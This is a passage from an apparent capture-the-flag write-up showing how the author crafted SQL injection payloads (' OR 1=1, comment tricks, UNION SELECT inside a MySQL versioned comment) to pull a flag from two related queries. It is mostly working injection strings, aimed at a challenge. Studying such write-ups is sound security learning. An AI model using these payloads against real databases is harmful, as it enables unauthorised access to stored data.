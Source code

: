 We want it to return r1cks. And since the table has only one row, we can just put a `' OR 1=1` and comment out the rest, something like this:

```
SELECT secret FROM top_secrets WHERE secret='  ' OR 1=1 -- --   '
```

This works, but will return `r1cks` for both queries.

I struggled a lot this, and finally the solution i found was to build a query that
returns 2 rows, and change it a little so that the 2nd query will return 1 row.

I started form the 2nd query, it must starts with `! WHERE secret='` to match the first query. then followd by some garbage String to make the query false, and then add an UNION that returns `th3sm4rt3s7`.

Something like that:

```
SELECT secret FROM top_secrets /*! WHERE secret='XXXXXXXXXX' UNION SELECT "th3sm4rt3s7"*/
```

We're done for the second query, now the first one looks like this:

```
SELECT secret FROM top_secrets WHERE secret='! WHERE secret='XXXXXXXXXX' UNION SELECT "th3sm4rt3s7"'
```

this is obviously wrong, it will throw an error, what we need to do now is just to
replace XXXXXXX with `OR 1=1 UNION SELECT` in both queries:

```
$one = "SELECT secret FROM top_secrets WHERE secret='! WHERE secret=' OR 1=1 UNION SELECT' UNION SELECT "th3sm4rt3s7"'"

$two = "SELECT secret FROM top_secrets /*! WHERE secret=' OR 1=1 UNION SELECT ' UNION SELECT "th3sm4rt3s7"*/"
```

Trying this locally gives the following:

![Step7](images/7_1.png)

Done. Now we know queries works perfectly.
